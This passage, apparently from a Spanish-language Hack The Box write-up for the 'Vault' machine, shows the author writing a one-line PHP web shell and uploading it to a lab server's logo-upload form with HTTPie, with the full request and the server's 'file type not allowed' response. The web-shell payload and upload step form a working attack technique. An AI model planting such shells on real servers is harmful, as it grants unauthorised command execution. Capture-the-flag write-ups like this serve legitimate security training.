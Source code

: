 ``` html
        </form>
</div>
</body>
</html>
```

Tenemos un form para subir archivos, lo cual hace sentido con la carpeta _uploads_ que encontramos anteriormente.

# uploading a php shell

Subamos una pequeña shell de php:

``` html
xbytemx@laptop:~/htb/vault$ printf '<?php system($_GET["cmd"]); ?>' > miaushell.php
xbytemx@laptop:~/htb/vault$ http -v -f POST http://10.10.10.109/sparklays/design/changelogo.php file@miaushell.php submit="upload file"
POST /sparklays/design/changelogo.php HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 277
Content-Type: multipart/form-data; boundary=b57e22e967ea0a137a14f5ef7de530d7
Host: 10.10.10.109
User-Agent: HTTPie/0.9.8

--b57e22e967ea0a137a14f5ef7de530d7
Content-Disposition: form-data; name="submit"

upload file
--b57e22e967ea0a137a14f5ef7de530d7
Content-Disposition: form-data; name="file"; filename="miaushell.php"

<?php system($_GET["cmd"]); ?>
--b57e22e967ea0a137a14f5ef7de530d7--

HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 330
Content-Type: text/html; charset=UTF-8
Date: Tue, 05 Mar 2019 15:51:26 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding

sorry that file type is not allowed<!DOCTYPE html>
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Upload Your File</title>
</head>

<body>
<div id="container">
	<form enctype="multipart/form-data" action="" method="post">
        <label for="file">Choose a file to upload:</label>
        <input id="file" type="file" name="file" /><br />
        <input type="submit" value="upload file" name="submit" />

	</form>
</div>
</body>
```